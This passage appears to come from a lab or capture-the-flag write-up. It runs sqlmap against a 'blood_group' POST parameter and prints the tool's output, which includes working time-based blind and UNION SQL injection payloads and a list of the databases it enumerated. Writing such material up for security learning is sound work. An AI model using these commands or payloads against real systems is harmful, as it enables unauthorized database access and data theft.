   
  
Now that we’ve identified a potentially vulnerable parameter, let’s jump into the sqlmap and use the following command:  
  
`sqlmap -r req.txt -p blood_group --dbs`  

`**sqlmap -r <request_file> -p <vulnerable_parameter> --dbs**`

  

Here we have used two flags: -r to read the file, -p to supply the vulnerable parameter, and --dbs to enumerate the database.

Database Enumeration

```shell-session
nare@nare$ sqlmap -r req.txt -p blood_group --dbs
[19:31:39] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[19:31:50] [INFO] POST parameter 'blood_group' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[19:33:09] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[19:33:09] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[19:33:09] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[19:33:09] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag 'T' in option '--technique' (e.g. '--flush-session --technique=BEUS') or try to lower the value of option '--time-sec' (e.g. '--time-sec=2')
[19:33:10] [WARNING] reflective value(s) found and filtering out
[19:33:12] [INFO] target URL appears to be UNION injectable with 8 columns
[19:33:13] [INFO] POST parameter 'blood_group' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'blood_group' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:33:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:33:17] [INFO] fetching database names
available databases [6]:
[*] blood
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] test
```
